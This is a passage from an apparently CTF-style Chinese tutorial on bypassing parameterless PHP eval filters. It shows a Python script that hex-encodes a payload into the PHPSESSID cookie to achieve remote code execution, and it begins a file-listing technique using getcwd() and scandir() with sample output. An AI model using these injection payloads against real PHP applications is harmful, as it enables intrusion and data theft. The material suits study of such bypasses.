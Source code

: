 > [![img](PHP命令执行.assets/2019-03-29-13-34-09.png)](https://skysec.top/images/2019-03-29-13-34-09.png)
> 可以获取PHPSESSID的值，而我们知道PHPSESSID允许字母和数字出现，那么我们就有了新的思路，即`hex2bin`
> 脚本如下
>
> ```
> import requests
> url = 'http://localhost/?code=eval(hex2bin(session_id(session_start())));'
> payload = "echo 'sky cool';".encode('hex')
> cookies = {
> 	'PHPSESSID':payload
> }
> r = requests.get(url=url,cookies=cookies)
> print r.content
> ```
>
> 
>
> 即可达成RCE和bypass的目的
>
> ### 法五：dirname() & chdir()
>
> 为什么一定要RCE呢？我们能不能直接读文件？
> 之前的方法都基于可以进行RCE，如果目标真的不能RCE呢？我们能不能进行任意读取？
> 那么想读文件，就必须进行目录遍历，没有参数，怎么进行目录遍历呢？
> 首先，我们可以利用`getcwd()`获取当前目录
>
> ```
> ?code=var_dump(getcwd());
> 
> string(13) "/var/www/html"
> ```
>
> 
>
> 那么怎么进行当前目录的目录遍历呢？
> 这里用`scandir()`即可
>
> ```
> ?code=var_dump(scandir(getcwd()));
> 
> array(3) { [0]=> string(1) "." [1]=> string(2) ".." [2]=> string(9) "index.php" }
> ```
>
> 
>